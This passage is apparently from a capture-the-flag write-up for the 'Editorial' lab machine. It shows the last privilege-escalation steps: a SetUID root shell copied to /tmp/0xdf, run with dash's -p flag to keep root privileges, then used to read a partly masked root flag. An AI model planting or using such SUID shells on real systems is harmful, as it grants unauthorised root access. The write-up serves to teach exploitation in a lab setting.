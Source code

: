 It errors, but the SetUID/SetGID `sh` is there:

```

prod@editorial:/$ ls -l /tmp/0xdf 
-rwsrwsrwx 1 root root 125688 Jun 19 18:52 /tmp/0xdf

```

`sh` is actually the `dash` shell:

```

prod@editorial:/$ ls -l /bin/sh
lrwxrwxrwx 1 root root 4 Mar 23  2022 /bin/sh -> dash

```

So I’ll need to run with `-p` to keep the privs:

```

prod@editorial:/$ /tmp/0xdf -p
# id
uid=1000(prod) gid=1000(prod) euid=0(root) egid=0(root) groups=0(root),1000(prod)

```

And I can read `root.txt`:

```

# cat root.txt
02094d7b************************

```